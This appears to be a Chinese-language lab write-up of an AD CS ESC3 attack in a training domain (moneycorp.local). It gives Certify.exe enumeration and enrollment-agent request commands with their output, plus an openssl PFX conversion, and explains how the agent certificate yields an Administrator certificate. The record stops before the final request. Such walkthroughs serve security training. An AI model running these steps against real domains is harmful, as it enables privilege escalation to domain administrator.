 ```
C:\AD\Tools\Certify.exe find /vulnerable
```
```
[!] Vulnerable Certificates Templates :
 CA Name : mcorpdc.moneycorp.local\moneycorp-MCORP-DC-CA
 Template Name : SmartCardEnrollment-Agent
 Schema Version : 2
 Validity Period : 10 years
 Renewal Period : 6 weeks
 msPKI-Certificates-Name-Flag : SUBJECT_ALT_REQUIRE_UPN,
SUBJECT_REQUIRE_DIRECTORY_PATH
 mspki-enrollment-flag : AUTO_ENROLLMENT
 Authorized Signatures Required : 0
 pkiextendedkeyusage : Certificate Request Agent
 mspki-certificate-application-policy : Certificate Request Agent
 Permissions
 Enrollment Permissions
 Enrollment Rights : dcorp\Domain Users S-1-5-21-335606122-960912869-3279953914-513
 mcorp\Domain Admins S-1-5-21-
335606122-960912869-3279953914-512
 mcorp\Enterprise Admins S-1-5-21-
335606122-960912869-3279953914-519
```
注意到`pkiextendedkeyusage : Certificate Request Agent`，代表這個範本做出來的憑證都會有**可以幫別人辦憑證的能力**，

```
C:\AD\Tools\Certify.exe find
```
```
 Template Name : SmartCardEnrollment-Users
 Schema Version : 2
 Validity Period : 10 years
 Renewal Period : 6 weeks
 msPKI-Certificates-Name-Flag : SUBJECT_ALT_REQUIRE_UPN,
SUBJECT_REQUIRE_DIRECTORY_PATH
 mspki-enrollment-flag : AUTO_ENROLLMENT
 Authorized Signatures Required : 1
Application Policies : Certificate Request Agent
 pkiextendedkeyusage : Client Authentication, Encrypting
File System, Secure Email
 mspki-certificate-application-policy : Client Authentication, Encrypting
File System, Secure Email
 Permissions
 Enrollment Permissions
Enrollment Rights : dcorp\Domain Users S-1-5-21-719815819-3726368948-3917688648-513
 mcorp\Domain Admins S-1-5-21-
719815819-3726368948-3917688648-512
 mcorp\Enterprise Admins S-1-5-21-
719815819-3726368948-3917688648-519
```
注意到`Application Policies : Certificate Request Agent`，代表這個憑證確實具**備代辦憑證的能力**
因此利用的方式會先申請SmartCardEnrollment-Agent，攻擊者（一般網域帳號）去 CA 申請一張 **Enrollment Agent** 憑證（因為這個範本 Domain Users 就能用）。  
>這張憑證的特權：可以代替別人去要憑證。
```
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Agent
```
```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc3.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc3-agent.pfx
```
有了這個 Enrollment Agent，就可以跟 SmartCardEnrollment-Users 請求「我要幫 Administrator 申請一張 SmartCardEnrollment-Users 用戶憑證」。  CA 因為信任代理人憑證，所以直接給你一張 **Administrator 身份的用戶憑證**。
 ```
 ```